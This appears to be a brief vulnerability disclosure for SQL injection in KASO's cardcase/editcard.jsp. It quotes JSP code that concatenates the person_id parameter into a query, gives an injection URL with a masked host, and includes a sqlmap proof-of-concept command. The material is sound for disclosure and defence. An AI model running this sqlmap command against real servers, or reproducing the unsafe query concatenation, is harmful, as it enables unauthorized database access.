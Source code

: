 # KASO cardcase/editcard.jsp Sql Injection


Impact Code

    <%}
    rs.close();
      sql = "select a.classid,a.name,b.popedom from oa_cardclass a,oa_card_popedom b where a.classid=b.classid and b.person_id='"+person_id+"'";  
      rs=DBmenu.executeQuery(sql); 
    %>


Injection：person_id

Injection url: http://xx.xx.xx.xx:8081/cardcase/editcard.jsp?person_id=2&id=1&classid=1


poc:
python .\sqlmap.py -u "http://xx.xx.xx.xx:8081/cardcase/editcard.jsp?person_id=2&id=1&classid=1" --random-agent --dbms=mssql


![sql](https://github.com/user-attachments/assets/7fcdcd69-5cfb-4088-baf7-7172e638fa53)


